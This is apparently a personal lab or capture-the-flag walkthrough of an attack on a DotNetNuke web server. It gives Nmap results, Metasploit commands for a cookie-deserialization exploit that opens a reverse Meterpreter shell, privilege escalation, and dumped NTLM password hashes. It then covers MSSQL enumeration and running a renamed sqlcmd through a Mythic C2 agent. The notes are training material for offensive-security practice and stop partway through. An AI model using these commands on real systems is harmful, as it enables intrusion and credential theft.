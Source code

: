 Regain Access:
```

```

Nmap scan below. Looked like a promising first hit.
```
Nmap scan report for 10.10.110.10
Host is up (0.049s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE  SERVICE VERSION
80/tcp    open   http    Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 30 disallowed entries (15 shown)
| /admin/ /App_Browsers/ /App_Code/ /App_Data/ 
| /App_GlobalResources/ /bin/ /Components/ /Config/ /contest/ /controls/ 
|_/DesktopModules/ /Documentation/ /HttpModules/ /images/ /Install/
|_http-favicon: Unknown favicon MD5: 2DE6897008EB657D2EC770FE5B909439
|_http-title: Home
443/tcp   closed https
3391/tcp  closed savant
49443/tcp closed unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```



Website is running DNN (dotnetnuke)
![[Pasted image 20250501120838.png]]

Potentially version 7.0
![[Pasted image 20250501121056.png]]

Registering a user tells us that the site admin has to verify and view our request.
![[Pasted image 20250501121310.png]]

Weak version of DNN, maybe google and look for an RCE?
No luck with a dnn cookie deserialization rce
![[Pasted image 20250501122524.png]]

It looks vulnerable, helpful blogpost?

https://pentest-tools.com/blog/exploit-dotnetnuke-cookie-deserialization

Need to change the payload to  

```bash
msfconsole -q
use windows/http/dnn_cookie_deserialization_rce
set lhost tun0
set rhosts 10.10.110.10
set payload payload/windows/meterpreter/reverse_http
# In meterpreter
getsystem
# Might need to repeat it a second time
getsystem
# Use privileged meterpreter to run privileged beacon
```
We should be aware of Firewalls. Reverse http is very good at getting around these.
We can use meterpreter getsystem to privesc, and then hashdump to get some hashes,


```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:4e63f2ecad6ac1c809564e26ea764999:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

We'll find the first flag in the DotNetNukedirectory

Checking the running processes, we see some SQL stuff running. We can use nmap, netexec, bloodhound to figure out the names of the servers.

Using netexec, we can check for anything in the domain running MSSQL
```bash
netexec mssql 10.9.20.13/24 -u '' -p ''
```
![[Pasted image 20250528223400.png]]

Through the binaries, it's sort of implied that we have permissions to this SQL server. 

We need to use sqlcmd
https://github.com/microsoft/go-sqlcmd/releases/tag/v1.8.2
```bash
wget https://github.com/microsoft/go-sqlcmd/releases/download/v1.8.2/sqlcmd-windows-amd64.zip
unzip sqlcmd-windows-amd64.zip
```

We can upload this using our Mythic C2.

```mythic
upload
```

And then run it. We're using the shell command in Mythic C2, and then passing everything after that as an arguement
```
shell C:\windows\tasks\sqlcmd.exe -S tcp:10.9.20.11,1433 -Q "select @@ version;"
```
It doesn't seem to like the name 'sqlcmd.exe', so we'll rename it.
![[Pasted image 20250528224341.png]]

